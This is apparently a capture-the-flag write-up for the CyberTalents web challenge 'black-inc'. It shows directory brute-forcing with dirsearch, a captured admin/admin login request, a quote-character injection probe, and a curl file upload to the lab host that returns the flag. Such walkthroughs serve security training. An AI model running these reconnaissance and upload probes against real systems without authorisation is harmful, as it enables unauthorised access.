 # Solve black-inc
#### https://cybertalents.com/challenges/web/black-inc

![alt text](image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mxmdvw15h1358j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

We found only login.php

### Analyze with burp
#### Login request
```http
POST /login.php HTTP/1.1
Host: wcamxwl32pue3e6mxmdvw15h1358j6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://wcamxwl32pue3e6mxmdvw15h1358j6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mxmdvw15h1358j6zqdkgxu639-web.cybertalentslabs.com/login.php
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _fbp=fb.1.1718765789636.122478108392360263; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0
Upgrade-Insecure-Requests: 1

inputUser=admin&inputPassword=admin
```
Wrong username or password!

Try to cause error with `'` -> Nothing changed

So we can't login in.

### Try to upload a file with curl
`curl -F secret=@image.jpg http://wcamxwl32pue3e6mxmdvw15h1358j6zqdkgxu639-web.cybertalentslabs.com`

Note: you can upload any file.

The flag is in the response. 


>Find More on ==> github.com/MedhatHassan 
